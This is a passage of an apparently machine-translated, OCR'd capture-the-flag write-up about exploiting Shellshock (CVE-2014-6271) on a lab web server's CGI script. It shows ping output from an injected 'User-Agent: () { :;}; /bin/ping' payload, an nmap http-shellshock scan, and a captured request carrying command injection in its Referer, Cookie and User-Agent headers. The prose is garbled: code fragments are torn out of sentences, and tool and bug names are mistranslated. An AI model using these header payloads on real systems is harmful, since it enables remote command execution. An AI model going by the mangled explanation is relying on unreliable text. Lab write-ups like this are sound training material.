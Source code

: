     --- 10.10.14.15 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 18.955/18.955/18.955/0.000 ms
    

如果我删除 ， 并发送 ，仍然看到 ICMP 数据包，但来自服务器的响应是 500。我认为如果没有换行符，它会将输出放在HTTP标头中，这是标头中不合规的内容，导致崩溃。也就是说，我无法获得诸如创建换行符并返回结果之类的东西（尽管它阻止了500）。我没有很好的解释为什么，但也不能放手，所以在Beyond Root中更多。`echo;``User-Agent: () { :;}; /bin/ping -c 1 10.10.14.15``tcpdump``python3 -c 'print()'`

#### n地图

`nmap`有一个[脚本](https://nmap.org/nsedoc/scripts/http-shellshock.html)来测试《炮弹奇兵》。我需要为它提供URI，以便脚本进行检查：

    oxdf@parrot$ nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/user.sh 10.10.10.56
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-16 07:17 EDT
    Nmap scan report for 10.10.10.56
    Host is up (0.019s latency).
    
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    | http-shellshock: 
    |   VULNERABLE:
    |   HTTP Shellshock vulnerability
    |     State: VULNERABLE (Exploitable)
    |     IDs:  CVE:CVE-2014-6271
    |       This web application might be affected by the vulnerability known
    |       as Shellshock. It seems the server is executing commands injected
    |       via malicious HTTP headers.
    |             
    |     Disclosure date: 2014-09-24
    |     References:
    |       http://www.openwall.com/lists/oss-security/2014/09/24/10
    |       http://seclists.org/oss-sec/2014/q3/685
    |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
    |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 6.66 seconds
    

我在《窃听》中捕捉到了它，看看它在做什么。具有漏洞利用检查的请求是：

    GET /cgi-bin/user.sh HTTP/1.1
    Connection: close
    Referer: () { :;}; echo; echo -n kgbyrbl; echo pkzxdko
    Cookie: () { :;}; echo; echo -n kgbyrbl; echo pkzxdko
    User-Agent: () { :;}; echo; echo -n kgbyrbl; echo pkzxdko
    Host: 10.10.10.56
    